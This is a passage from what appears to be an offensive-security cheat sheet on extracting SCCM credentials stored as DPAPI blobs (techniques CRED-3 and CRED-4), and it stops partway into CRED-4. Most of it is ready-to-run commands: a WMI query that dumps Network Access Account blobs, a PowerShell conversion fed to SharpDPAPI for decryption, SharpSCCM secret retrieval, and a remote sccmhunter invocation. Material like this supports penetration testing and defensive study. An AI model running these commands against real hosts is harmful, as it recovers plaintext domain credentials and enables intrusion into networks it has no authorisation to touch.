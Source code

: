 ### CRED-3 Extract currently deployed credentials stored as DPAPI blobs

> Dump currently deployed secrets via WMI. If you can escalate on a host that is an SCCM client, you can retrieve plaintext domain credentials.

* [Misconfiguration-Manager - CRED-3](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-3/cred-3_description.md)

**Requirements**:

* Local administrator privileges on an SCCM client

**Exploitation**:

* Find SCCM blob

    ```ps1
    Get-Wmiobject -namespace "root\ccm\policy\Machine\ActualConfig" -class "CCM_NetworkAccessAccount"
    NetworkAccessPassword : <![CDATA[E600000001...8C6B5]]>
    NetworkAccessUsername : <![CDATA[E600000001...00F92]]>
    ```

* Using [GhostPack/SharpDPAPI](https://github.com/GhostPack/SharpDPAPI/blob/81e1fcdd44e04cf84ca0085cf5db2be4f7421903/SharpDPAPI/Commands/SCCM.cs#L208-L244)

    ```ps1
    $str = "060...F2DAF"
    $bytes = for($i=0; $i -lt $str.Length; $i++) {[byte]::Parse($str.Substring($i, 2), [System.Globalization.NumberStyles]::HexNumber); $i++}
    $b64 = [Convert]::ToBase64String($bytes[4..$bytes.Length])
    .\SharpDPAPI.exe blob /target:$b64 /mkfile:masterkeys.txt    
    ```

* Using [Mayyhem/SharpSCCM](https://github.com/Mayyhem/SharpSCCM) for SCCM retrieval and decryption

    ```ps1
    .\SharpSCCM.exe local secrets -m wmi
    ```

From a remote machine.

* Using [garrettfoster13/sccmhunter](https://github.com/garrettfoster13/sccmhunter)

    ```ps1
    python3 ./sccmhunter.py http -u "administrator" -p "P@ssw0rd" -d internal.lab -dc-ip 10.10.10.10. -auto
    ```

### CRED-4 Extract legacy credentials stored as DPAPI blobs

* [Misconfiguration-Manager - CRED-4](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-4/cred-4_description.md)

**Requirements**:

* Local administrator privileges on an SCCM client

